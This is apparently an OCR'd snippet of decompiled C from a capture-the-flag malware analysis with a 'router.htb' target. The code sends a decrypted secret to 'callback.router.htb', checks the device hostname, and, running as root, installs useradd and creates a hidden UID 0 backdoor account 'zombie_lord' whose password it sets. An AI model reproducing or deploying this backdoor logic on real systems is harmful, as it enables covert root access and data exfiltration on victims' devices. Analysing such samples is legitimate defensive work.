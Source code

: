 ```C
  curl_easy_handle = curl_easy_init();
  if (curl_easy_handle == 0) {
    uVar5 = 0xfffffffe;
  }
  else {
    curl_easy_setopt(curl_easy_handle,0x2712,"http://callback.router.htb");
    curl_easy_setopt(curl_easy_handle,0x271f,decrypted);
    curl_easy_perform(curl_easy_handle);
    curl_easy_cleanup(curl_easy_handle);
    pFVar2 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar2);
    fclose(pFVar2);
    (&uStack_169)[sVar1] = 0;
    curl_easy_handle = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (curl_easy_handle == 0) {
      _Var3 = getuid();
      if ((_Var3 == 0) || (_Var3 = geteuid(), _Var3 == 0)) {
        ppVar4 = getpwnam((char *)&uStack_20);
        if (ppVar4 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                );
        }
        pFVar2 = popen("passwd zombie_lord","w");
        fprintf(pFVar2,"%s\n%s\n",decrypted,decrypted);
        pclose(pFVar2);
        uVar5 = 0;
      }
      else {
        uVar5 = 0xffffffff;
      }
    }
    else {
      uVar5 = 0xffffffff;
    }
  }
  return uVar5;
}


```

```C
undefined4 init_crypto_lib(undefined4 param_1,undefined4 param_2,undefined4 param_3)

{
  undefined auStack_110 [260];
  
  key_rounds_init(param_1,auStack_110);
  perform_rounds(auStack_110,param_2,param_3);
  return 0;
}
```
